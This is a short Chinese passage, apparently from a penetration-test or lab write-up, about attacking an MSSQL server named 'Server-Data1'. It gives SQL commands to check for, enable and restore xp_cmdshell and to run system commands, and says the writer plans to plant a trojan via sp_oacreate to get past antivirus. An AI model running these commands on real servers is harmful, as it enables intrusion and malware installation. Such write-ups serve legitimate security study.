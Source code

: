 ![](./images/12.png)

尝试利用`xp_cmdshell`来攻击`Server-Data1`，参考文章[Mssql数据库命令执行总结](https://xz.aliyun.com/t/7534)。

```sql
# 判断xp_cmdshell状态，存在返回1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# 启用xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# 利用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami'

# 恢复被删除的xp_cmdshell，可以利用xplog70.dll恢复被删除的xp_cmdshell
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','D:\\xplog70.dll'
```

目标机器存在火绒，没法直接下载马子，这里参考文章[记一次利用mssql上线](https://xz.aliyun.com/t/9265)中的攻击手法，利用`sp_oacreate`来上线马子。
